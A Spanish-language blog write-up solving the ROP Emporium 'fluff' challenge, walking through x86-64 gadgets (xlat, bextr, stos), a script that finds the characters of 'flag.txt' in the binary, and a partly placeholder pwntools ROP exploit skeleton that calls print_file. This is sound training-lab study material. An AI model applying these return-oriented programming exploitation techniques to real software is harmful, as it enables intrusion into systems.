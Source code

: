 ```yaml
---
title: Solución Ropemporium fluff
date: 2024-01-14
categories: [rop, 64bits, bof]
tags: [64bits, bof, rop]
---
```


# Introducción

El Desafío **Ropemporium fluff** presenta similitudes con el desafío [write4](https://ropemporium.com/challenge/write4.html). La tarea consiste en identificar **gadgets** para escribir en registros. El enunciado advierte sobre la disponibilidad limitada de gadgets en este binario y sugiere explorar **questionableGadgets**. Además, se nos encomienda realizar una llamada a la función **print_file()**.

## Exploración de Gadgets en `questionableGadgets`

Para comprender mejor las herramientas disponibles en questionableGadgets, hemos utilizado **pwndbg** para analizar la función.
![Pwndbg questionable](/assets/img/rop/questionableGadgets.png)

1. **Gadget 1:** `xlat BYTE PTR ds:[rbx]`
   - *Descripción:* Realiza una traducción de byte utilizando el contenido de `rbx`.
   - *Utilidad:* Ideal para manipular y transformar datos almacenados en el registro `rbx`.

2. **Gadget 2:** `pop rdx; pop rcx; add rcx,0x3ef2`
   - *Descripción:* Desapila valores en `rdx` y `rcx`, luego suma `0x3ef2` a `rcx`.
   - *Utilidad:* Ofrece control sobre los registros `rdx` y `rcx`, permitiendo manipulación eficiente de datos.

3. **Gadget 3:** `bextr rbx,rcx,rdx`
   - *Descripción:* Realiza una extracción de bits desde `rcx` hasta `rdx` y almacena el resultado en `rbx`.
   - *Utilidad:* Útil para operaciones avanzadas de manipulación de bits.

4. **Gadget 4:** `stos BYTE PTR es:[rdi],al`
   - *Descripción:* Almacena el contenido del registro `al` en la dirección apuntada por `rdi` en la segmentación de datos.
   - *Utilidad:* Simplifica la escritura eficiente de datos en memoria.

Esta exploración detallada proporciona una base sólida para construir nuestra cadena **ROP** de manera estratégica, utilizando estos **gadgets** de manera coordinada para lograr con éxito nuestro objetivo de invocar la función `print_file()`.

# Enfoque de explotación

Con un **offset** de 40 bytes una vez controlamos **RIP**, utilizaremos los siguientes gadgets: `bextr_rbx_rcx_rdx` para extraer bits y `xlatb`.

### Determinación de Dirección de Datos:

Identificar la dirección de datos donde se almacenarán los datos, en este caso, la cadena **"flag.txt"**.

### Localización de Caracteres en la Memoria:

Buscar la dirección de cada carácter individual en la cadena **"flag.txt"** en el binario utilizando la función read y almacenarlo en un **array**.

El siguiente script realiza esta tarea:

```python
from pwn import *

binary_content = open('fluff', 'rb').read()
binary_offset = 0x400000
string_to_write = b"flag.txt"
char_locations = []

for char in string_to_write:
    char_addr = hex(binary_content.find(char) + binary_offset)
    char_locations.append(char_addr)
    print(f"{chr(char)} encontrado en {char_addr}")
```

### Gadgets
Necesitamos **pop_rdi** y también necesitaremos saber la dirección de ``rax, así como pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;`` , ``stosb byte ptr [rdi], al; ret;`` y ``print_file``

### Esqueleto del exploit

```python
from pwn import process, p64, log

shell = process("./fluff")

offset = 40
junk = b"A" * offset

strings = []
flag = "flag.txt"

print_file = p64()
data = 

pop_rdi = p64()
stosb = p64()
xlatb = p64()
pop_rdx = p64()

rax = 

payload  = b""
payload += junk

for i in range(len(flag)):
    payload += pop_rdx + p64(0x2000) + p64(strings[i] - 0x3ef2 - rax)
    payload += xlatb
    payload += pop_rdi + p64(data + i)
    payload += stosb
    rax = ord(flag[i])

payload += pop_rdi
payload += p64(data)
payload += print_file

shell.sendlineafter(b"> ", payload)

flag = shell.recvline_contains(b"ROPE").decode()
log.info(f"Flag: {flag}")
```
Empezamos con el **script** anteriror para saber los **strings** que seran los siguientes:

```shell
f encontrado en 0x4003c4
l encontrado en 0x400239
a encontrado en 0x4003d6
g encontrado en 0x4003cf
. encontrado en 0x40024e
t encontrado en 0x400192
x encontrado en 0x400246
t encontrado en 0x400192
```
Luego los **gadgets** que los sacamos de **questionableGadgets**:

```0x0000000000400628 <+0>:	xlat   BYTE PTR ds:[rbx]```

```0x0000000000400639 <+17>:	stos   BYTE PTR es:[rdi],al```

```0x000000000040062a <+2>:	pop    rdx```

Ahora nos falta la dirección de **print_file**, la cual podemos obtener utilizando **Radare2**. La dirección es la siguiente: ``0x00400510``. También nos queda **rax**, que podemos ver usando Pwndbg con un breakpoint, que sería así: ``0xb``. No hago mucho énfasis en esta parte, ya que hemos estado trabajando en estos conceptos en desafíos anteriores.

# Exploit

![Pwndbg questionable](/assets/img/rop/fluffexp.png)